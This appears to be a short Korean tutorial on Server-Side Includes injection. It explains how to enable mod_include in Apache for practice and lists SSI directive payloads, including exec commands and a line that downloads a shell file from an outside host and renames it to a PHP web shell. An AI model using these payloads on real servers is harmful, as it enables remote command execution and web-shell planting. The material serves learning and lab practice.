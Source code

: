 ### SSI Injection?

Server-Side Includes (SSI) Injection 로 과거 서버 환경 정보 활용에 사용했던 기능이다.

현재는 더 좋은 명령어 들이 존재하기 때문에 거의 사용되지 않는다.

따라서 기본 설정은 대부분 비활성화 되어 있고, 일부러 활성화 시키지 않는 이상 실습 조차 어렵다.

### httpd.conf 를 LoadModule 로 사용하는 설정의 경우

LoadModule include_module modules/mod_include.so

의 #을 확인한다.(주석처리(#)가 있다면 제거)

### apache2의 mods-available 폴더를 사용하는 환경인 경우

ln -s /etc/apache2/mods-available/include.load /etc/apache2/mods-enabled

### httpd.conf 또는 /etc/apache2/sites-available/000-default 파일 편집

＜Directory />
    Options FollowSymLinks Includes
    AllowOverride All
    Order allow,deny
    Allow from all
    AddType text/html .shtml
    AddOutputFilter INCLUDES .shtml
＜/Directory>

### 사용 가능 구문

＜!--#exec cmd="ls" -->
＜!--#exec cmd="cd /root/dir/">
＜!--#exec cmd="wget http://mysite.com/shell.txt | rename shell.txt shell.php" -->
＜!--#exec cmd="dir" -->
＜!--#exec cmd="cd C:\admin\dir">
＜!--#config errmsg="File not found, informs users and password"-->
＜!--#echo var="DOCUMENT_NAME" -->
＜!--#echo var="DOCUMENT_URI" -->
＜!--#config timefmt="A %B %d %Y %r"-->
＜!--#fsize file="ssi.shtml" -->
＜!--#include file=”UUUUUUUU...UU”-->
